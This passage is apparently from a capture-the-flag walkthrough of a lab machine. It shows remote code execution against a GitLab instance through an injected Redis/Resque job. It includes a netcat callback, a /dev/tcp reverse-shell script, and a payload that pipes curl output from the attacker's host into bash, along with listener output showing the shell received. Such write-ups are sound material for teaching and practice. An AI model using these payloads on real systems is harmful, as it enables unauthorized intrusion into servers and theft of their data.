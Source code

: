 [![image-20210409220719648](https://0xdfimages.gitlab.io/img/image-20210409220719648.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210409220719648.png)

This POC is going to run `whoami` and pipe that into `nc` back to my IP. On sending that request, I get a connection with a single word:

```

oxdf@parrot$ nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 43438
git

```

#### Shell

I had to play with payload a bit to get a reverse shell that worked. I tried a handful of things that didn’t work, but eventually went back to an old standby of using `curl` to get a Bash script from my VM and pipe it into `bash`. `shell.sh` was:

```

#!/bin/bash

bash >& /dev/tcp/10.10.14.8/443 0>&1

```

Then the payload was:

```

 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.8/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec

```

On creating that project, I get a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 59190
id   
uid=998(git) gid=998(git) groups=998(git)

```

I’ll upgrade my shell with the standard tricks:
